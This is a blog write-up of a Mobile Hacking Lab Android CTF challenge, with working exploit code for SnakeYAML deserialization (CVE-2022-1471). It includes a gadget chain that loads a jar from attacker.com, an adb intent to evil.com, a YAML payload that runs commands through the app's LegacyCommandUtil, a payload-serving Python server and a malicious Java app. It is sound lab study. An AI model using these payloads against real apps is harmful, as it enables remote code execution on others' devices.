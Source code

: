 ```yaml
---
title:  "Mobile Hacking Lab Config Editor Writeup"
date:   2024-01-22T16:27:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Config Editor](https://www.mobilehackinglab.com/course/lab-config-editor-rce) challenge from Mobile Hacking Lab. 

## Static Analysis

When we open the app in emulator, it opens a page with "load" and "save" buttons and a text input area. When we press the load button, it opens the file manager for us to select a file and we can load example.yml file that created by app. Also we can write something to text area and save it with save button. Before saving file, it recommends a file name with yml extension again. Let's open it with jadx to understand the app.

![](/assets/images_mhl_configeditor/manifest.png)

When we examine the manifest file, we see that an intent filter is defined for MainActivity. To properly trigger this activity we need to send intent with http/https or file scheme and VIEW action. Also, the type of data we will send with intent is expected to be yaml.
```bash
# Sample intent
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://evil.com"
```
But we need to know what happened when this activity triggered. To undestand this, lets analyze MainActivity

![](/assets/images_mhl_configeditor/mainactivity.png)
 
Inside the onCreate function, handleIntent method called after setting the view of activity.

### handleIntent Function

![](/assets/images_mhl_configeditor/handleIntent.png)

handleIntent function handle the coming intent and after checking the action and uri, sends the uri to CopyFileFromUri function. After copying file from uri, it loads the yaml file with loadYaml function. During download and save processes getLastPathSegment function leads to file write with directory traversal vulnerability but this is not the case we will look into in this post. I explained that vulnerability on my [previous post](https://sh4d0wlesss.github.io/writeup/Mobile-Hacking-Lab-Document-Viewer-Challenge-Writeup/). This challenge have same vulnerability too. If you dont trust me go and test it :D

### loadYaml Function

![](/assets/images_mhl_configeditor/loadYaml.png)

loadYaml function gets the file from given uri and loads it with yaml.load function. This load function comes from snakeyaml(org.yaml.snakeyaml) package. This is a popular java library to parse yaml files. Some tips were given on the challenge page, and these tips mentioned finding a vulnerability in a 3rd party library. Since there is no native library file in the apk, the vulnerable library may be the snakeyaml library. Also, about a week before I wrote this article, I watched a [video prepared by mdisec](https://www.youtube.com/watch?v=IPrRccHlgLM) on YouTube, and while trying to solve this challenge, I remembered that the snakeyaml library was also mentioned in that video. In the video, a deserialization vulnerability(`CVE-2022-1471`) in the snakeyaml library is mentioned and the exploitation stages are shown in practice.

#### CVE-2022-1471

As far as I understand from the blog posts I read while researching this vulnerability, during the serialization we can specify the object inside the yaml file and snakeyaml will use this class name for creating object from same class during deserialization(also snakeyaml add that classnames when yaml.dump fucntion called for serialization). For example, we can specify the object type as car inside the yaml:
```yaml
car: 
  !!sample.car
  brand: kia
  model: rio
  year: 2004
  type: stationwagon
```
We can write the any class(must be in classpath) we want in the yaml file and the vulnerability is revealed here. Here is the example gadget chain shared as poc for this vuln:
```yaml
#ref: https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471

person: !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL [http://attacker.com/malicious-code.jar]
    ]]
]
```
With this chain (If the attacker can control the content of the yaml file) attacker can get remote code execution. I will not explain the details of the attack in this article. If you want to examine the detailed stages of this attack, [I highly recommend this blog post.](https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471) I tried this payload with app but it gives error because ScriptEngineManager class not found. [After some research](https://stackoverflow.com/questions/46320972/engine-eval-returns-null-in-android-studio) i saw that ScriptEngineManager is not available on Android by default. Instead of that everyone recommend `rhino` but im not a Android developer and i didnt understand anything that i read about that topic :D

But we need to get a remote code execution somehow. As you can see in the first picture I added at the beginning of the article, there is another class called LegcayCommandUtil in the application.

```java
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```
Inside the constructor of this class, a "command" executed with runtime exec function. We can use this class to exploit this vulnerability because we can access this class. Here is the sample yaml file:
```yaml
cartcurt: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.configeditor/poc.txt"]
```
If this payload works, poc.txt file will be created inside the application directory. For serving this file i used my hacky server code from previous post :
```py
#proudly stolen from : https://stackoverflow.com/questions/46105356/serve-a-file-from-pythons-http-server-correct-response-with-a-file
from http.server import BaseHTTPRequestHandler, HTTPServer
class MyHackyServer(BaseHTTPRequestHandler):

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        exploit_file = open('hacky.yml', 'rb')
        self.wfile.write(exploit_file.read())
        self.end_headers()


myServer = HTTPServer(('localhost', 1234), MyHackyServer)
myServer.serve_forever()
```
and the adb command for sending proper intent:
```bash
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.action.intent.VIEW -d "http://10.0.3.2:1234"
# 10.0.3.2 is the address of localhost of host machine for genymotion, if you are using Android Studio emulators, this ip will be 10.0.2.2 for you.
```
Here is the result(video):

[![](https://img.youtube.com/vi/vhk_WS9Da_0/0.jpg)](https://youtu.be/vhk_WS9Da_0)

It works🥳 If you want to make same thing with evil application, here is my sample code:
```java
package com.example.exploitconfigeditor;

import androidx.appcompat.app.AppCompatActivity;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Uri uri = Uri.parse("http://10.0.3.2:1234");
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setClassName("com.mobilehackinglab.configeditor","com.mobilehackinglab.configeditor.MainActivity");
        intent.setData(uri);
        startActivity(intent);
    }
}
```
And poc video:

[![](https://img.youtube.com/vi/YGbHG2m4clM/0.jpg)](https://youtu.be/YGbHG2m4clM)

We can run code remotely with small yaml file :)

Sad note: 😔
- I have tried lots of payloads to get reverse shell but i failed. [As mentioned here](https://stackoverflow.com/questions/25199307/unable-using-runtime-exec-to-execute-shell-command-echo-in-android-java-code), exec function does not execute [shell builtins](https://www.networkworld.com/article/967046/how-to-identify-shell-builtins-aliases-and-executable-files-on-linux-systems.html), it executes executables and for getting reverse shell i need to pass string array to constructor. Also i tried payloads with ${IFS} but they didn't work. If you can create working reverse shell payload please dm me on twitter or linkedin👀
- In this example we have a class that executes commands but in real world scenario i dont know how i can get remote code execution on android app with this vulnerability. If you can get rce on this challenge with another method, please dm me 👀

Thanks for reading! See you in next writeups :)
